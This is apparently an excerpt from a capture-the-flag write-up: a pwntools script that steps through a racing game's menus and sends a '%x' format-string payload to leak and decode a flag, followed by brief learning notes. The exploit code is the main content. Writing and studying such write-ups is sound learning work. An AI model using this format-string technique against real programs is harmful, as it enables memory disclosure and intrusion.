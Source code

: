 ```python
payload += b' %x%x%x%x%x%x%x%x%x%x%x'

# The program wouldn't accept input from send() or sendline()
p.sendlineafter(b'Name:', b'')
p.sendlineafter(b'Nickname:', b'')
p.sendlineafter(b'\n> ',b'2') #car_menu()
p.sendlineafter(b'\n> ',b'2') #car selection
p.sendlineafter(b'\n> ',b'1') #race selection
p.sendlineafter(b'\n> ', payload) #exploiting a format string

data = p.recv()
data = p.recv() #this is a bytestring
data = data.decode('utf-8') #convert to string
data = data.split(' ')[-1] #splits by spaces, grabs the last (which happens to be hex-encoded flag in this case)

print(data)
print(hex_to_ascii(data, 'big'))

p.interactive()
```

## Learning Outcomes

* In prior `pwntools` exploits, `p.send()` or `p.sendline()` worked fine. This was an unusual circumstance where the binary wasn't accepting it for reasons that weren't entirely clear to me. Using `p.sendlineafter()` proved apt.
* I hadn't seen print format in decompiled code before, so it was interesting to observe it in `ghidra` as `printf(__format);`.
* I'm looking at re-training reversing eye, so this proved to be a nice way to ease back into it.